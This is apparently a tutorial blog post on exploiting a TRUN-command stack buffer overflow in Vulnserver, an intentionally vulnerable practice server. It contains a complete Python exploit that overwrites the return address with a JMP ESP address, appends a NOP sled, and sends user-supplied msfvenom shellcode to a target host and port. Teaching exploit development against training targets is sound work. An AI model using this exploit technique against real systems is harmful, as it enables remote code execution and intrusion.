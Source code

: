 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 2
published: 2025-10-21
description: RCE exploit development against Vulnserver v1.00
tags: [binary exploitation, exploit, vulnerability research]
category: Exploit Development
draft: false
lang: en
---
```


# Vulnserver v1.00 RCE Exploit Dev

## YouTube
<iframe width="100%" height="468" src="https://www.youtube.com/embed/Rs7UawYGYUg?si=9-AftjVomWWhah4X" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Exploit Overview
![x32dbg](./debugger_view.png)

In x32dbg, if you go to **Symbols → essfunc.dll → EssentialFunc3** you’ll see code like the one above.
Here, the instruction `JMP ESP` (located at **0x625011BB**) is critical for control-flow hijacking.
It transfers execution to the address held in the ESP (Extended Stack Pointer) register, which points to the top of the stack.
By overwriting that location we can redirect execution to our mapped shellcode and ultimately run that shellcode.

## PoC
```python
from argparse import ArgumentParser
from socket import *
import struct

def createPayload(shellcode_path: str):
    data = b"A" * 2006
    return_address = struct.pack("<L", 0x625011BB)
    nop_sled = b"\x90" * 50
    shellcode = b""

    with open(shellcode_path, "rb") as fp:
        shellcode = fp.read()
        fp.close()

    payload = b"TRUN \x2E"
    payload += data
    payload += return_address
    payload += nop_sled
    payload += shellcode

    return payload

def exploit(ip: str, port: int, shellcode_path: str):
    print("[~] Generating payload...")
    payload = createPayload(shellcode_path)
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] RCE Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF RCE Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    parser.add_argument(
        "-s", "--shellcode",
        type=str,
        help="Set shellcode file path",
        required=True
    )

    args = parser.parse_args()

    target_ip       = str(args.target)
    target_port     = int(args.port)
    shellcode_path  = str(args.shellcode)

    exploit(target_ip, target_port, shellcode_path)

if __name__ == "__main__":
    main()
```

Since the program is x32, I converted the `JMP ESP` address to an x32 (32-bit) address using `struct` and `"<L"` like this:

```python
struct.pack("<L", 0x625011BB)
```

If we jump to that location, we'll find the shellcode mapped immediately after a 50 bytes of NOP sled.

After that, the shellcode provided by the user is loaded into memory and executed immediately. Below are the execution results:

![result](./result.png)

I used an x86 `calc.exe` execution shellcode generated by **msfvenom** (with bad characters removed), and confirmed that it executed successfully.